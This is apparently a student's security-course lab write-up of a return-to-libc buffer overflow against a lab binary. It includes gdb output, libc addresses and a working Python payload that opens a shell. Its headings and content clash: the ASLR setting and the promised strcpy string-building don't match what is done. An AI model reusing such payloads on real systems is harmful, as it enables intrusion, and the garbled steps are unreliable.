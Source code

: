 # Lab5_2 - Buffer overflow attack(turn on ASLR, turn on NX)

## Overview
* Previous lab, we use '/bin/sh' string in a environment in linux system. 
* This time, we're going to make '/bin/sh' string into a memory using strcpy and jump to the text!!!
* I think this is really cool and I truly admire who though these kind of things.

## PAYLOAD
+ Payload = PADDING + build-string-payload + &system() + &exit_path + &cmd_string
+ Note that, this time, we're building our own string!

## Before get started
+ Make sure that the ASLR is turned off.
```
[02/23/22]seed@VM:Byeongchan$ cat /proc/sys/kernel/randomize_va_space 
2
[02/23/22]seed@VM:Byeongchan$

```
+ Make sure not using stack executable when compiling c file
```
gcc -g -static -fno-stack-protector ans_check7.c -o ans_check7_static
```

## Steps
+ 1,2,3,4 - Have done on previous lab
+ 5. Find out the address of the strcpy & pop-pop-ret function
+ 6. Choose an address for our string destination
+ 7. Find out where hexacode of strings are.(We're using them to build our own command)
+ 8. Build the command text we're using
+ 9. Make the payload and execute

### Step5 - Find out the address of the strcpy & pop-pop-ret function
+ I found the 54 bytes are needed for the padding using exit function
+ If you're not sure what it does, look back previous practice
```
[02/23/22]seed@VM:Byeongchan$ ./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xcf\xf0\xff\xbf'")
```


### Step6 - Choose an address for our string destination
+ Address of system() : 0xb7da4da0
+ I tried to find the system in the program, but it ended with ‘00’ so I tried to find another one using gdb.
```
[02/23/22]seed@VM:Byeongchan$ objdump -D ans_check7 | grep system
08048420 <system@plt>:
 8048639:	e8 e2 fd ff ff       	call   8048420 <system@plt>
[02/23/22]seed@VM:Byeongchan$
```
+ This time, I used gdb method.
```
[02/23/22]seed@VM:Byeongchan$ gdb -q ans_check7
Reading symbols from ans_check7...done.
gdb-peda$ run
Starting program: /home/seed/lab5/ans_check7 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
Usage: /home/seed/lab5/ans_check7 <answer>
[Inferior 1 (process 3129) exited normally]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7da4da0 <__libc_system>
gdb-peda$
```

### Step7 - Find out where hexacode of strings are.(We're using them to build our own command)
+ Address of exit() : 0xb7d989d0
+ This time, I just using gdb method very first.
```
[02/23/22]seed@VM:Byeongchan$ gdb -q ans_check7
Reading symbols from ans_check7...done.
gdb-peda$ run
Starting program: /home/seed/lab5/ans_check7 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
Usage: /home/seed/lab5/ans_check7 <answer>
[Inferior 1 (process 3147) exited normally]
Warning: not running or target is remote
gdb-peda$ p exit
$1 = {<text variable, no debug info>} 0xb7d989d0 <__GI_exit>
```

### Step8 - Build the command text we're using
+ The address of cmd_string: 0xbffff0d3
+ Repeatable note is here
```
[02/23/22]seed@VM:Byeongchan$ gcc find_var.c -o find_var
[02/23/22]seed@VM:Byeongchan$ find_var SHELL
0xbffff0d3
[02/23/22]seed@VM:Byeongchan$ echo $SHELL
/bin/bash
[02/23/22]seed@VM:Byeongchan$
```

### Step9 - Make the payload and execute
+ The payload I made is shown below
+ &system:  0xb7da4da0 <__libc_system>
+ &exit_path: b7d989d0 <__GI_exit>
+ &cmd_string: 0xbffff0d3, cmd_string address
```
$(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xd3\xf0\xff\xbf'")
./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xd3\xf0\xff\xbf'")
```
+ However, there is one problem executing the payload with the program
+ The payload I made above failed with ‘/bash’ not found error. And I knew the meaning of it, because find_var program returned the address of ‘SHELL’ text a little bit different. So, I needed to make adjustment a bit. 
+ First, I tried 3 less bytes and I also failed with ‘bin/bash’ not found. 
+ Second, I tried 4 less bytes and I got a new shell.
+ Below is my successful execution command.
```
[02/23/22]seed@VM:Byeongchan$ ./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xcf\xf0\xff\xbf'")
```
![lab5_1](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/lab5_1.png)


